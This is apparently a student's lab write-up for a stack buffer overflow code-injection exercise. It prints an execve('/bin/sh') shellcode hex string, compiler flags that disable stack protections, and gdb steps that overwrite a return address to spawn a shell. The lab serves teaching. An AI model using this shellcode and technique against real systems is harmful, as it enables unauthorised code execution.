








# 21110756_Nguyễn Đình Minh Chiến
# Lab_02 Code injection 
## 2.1. Preparing shell code
Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)

Run the following script to get the hex string of shellcode: `$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo` 

--> hex string generated: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80`

## 2.2. Preparing payload
Compile program with options to defeat stack protecting mechanism and code execution on stack: `$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04: `sudo ln -sf /bin/zsh /bin/sh`

## 2.3. Code injection 
Load vuln.out in gdb: `$> gdb vuln.out`

Set break point after strcpy instruction

Run program in gdb with injecting argument: `(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")`

Watch the stack memory from esp (stack top): `(gdb-peda) x/80xb $esp`

Identify the return address while watching out the stack, then replace `\xff\xff\xff\xff` with the value of esp: `set *<address of return address> = <address of esp>`

Continue executing program, you should now in the new bash shell: `(gdb-peda) continue`

->>`$_` <-- you are in the new bash.